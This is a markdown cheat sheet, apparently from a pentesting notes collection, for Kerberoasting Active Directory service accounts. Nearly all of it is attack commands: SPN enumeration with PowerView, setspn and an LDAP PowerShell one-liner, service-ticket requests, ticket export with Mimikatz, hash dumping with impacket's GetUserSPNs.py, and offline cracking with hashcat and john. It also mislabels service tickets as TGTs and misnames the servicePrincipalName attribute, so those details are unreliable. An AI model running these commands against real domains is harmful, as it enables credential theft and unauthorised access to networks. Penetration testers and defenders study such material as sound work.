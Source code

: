 # Kerberoast

Send a request to a TGT for a Kerberos token, dump it from memory, crack it locally to obtain access to the target. The TGT can also be used to forge a Silver Ticket and gain access to the service machine. Vulnerable accounts need to have the flag `serverPrincipalName` set.

## Exploit

### Windows machine

Vulnerable users in domain

```
Get-NetUser -SPN | select serviceprincipalname    //Powerview
setspn -T <domain> -Q */*                         //Builtin
```

Enumerate with LDAP Powershell module

```
$ldapFilter="(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))";$domain=New-Object System.DirectoryServices.DirectoryEntry;$search=New-Object System.DirectoryServices.DirectorySearcher;$search.SearchRoot=$domain;$search.PageSize=1000;$search.Filter=$ldapFilter;$search.SearchScope="Subtree";$results=$search.FindAll()$Results=foreach($result in $results){$result_entry=$result.GetDirectoryEntry();$result_entry|Select-Object @{Name="Username";Expression={$_.sAMAccountName}},@{Name="SPN";Expression={$_.servicePrincipalName|Select-Object -First 1}}}$Results;
```

Enumerate past remote sessions on local machine

```
klist
```

Request a Service Ticket from the target. The ticket will be stored in memory

```
Add-Type -AssemblyName System.IdentityModel;New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

Dump the SPN ticket using Mimikatz

```
privilege::debug
token::elevate
kerberos::list /export
```

### \*nix machine

Get a list of SPN users. Requires a valid user and password or NTLM hash to query the DC

```
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user>:<pass> -outputfile <file>
GetUserSPNs.py -dc-ip <DC IP> -hashes <LM>:<NT> <domain>/<user> -outputfile <file>
```

Dump TGT

```
GetUserSPNs.py <domain>/<user>:<pass> -dc-ip <DC IP> -request  #dump TGTs of current user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user> -request-user <target user> #dump TGTs of target user
```

## Crack hash

Crack the .kirbi file or hash received from impacket

```
hashcat -m 13100 --force <hashfile> <wordlist>
john --format=krb5tgs --wordlist=<wordlist> <hashfile>    #requires jumbo version
```
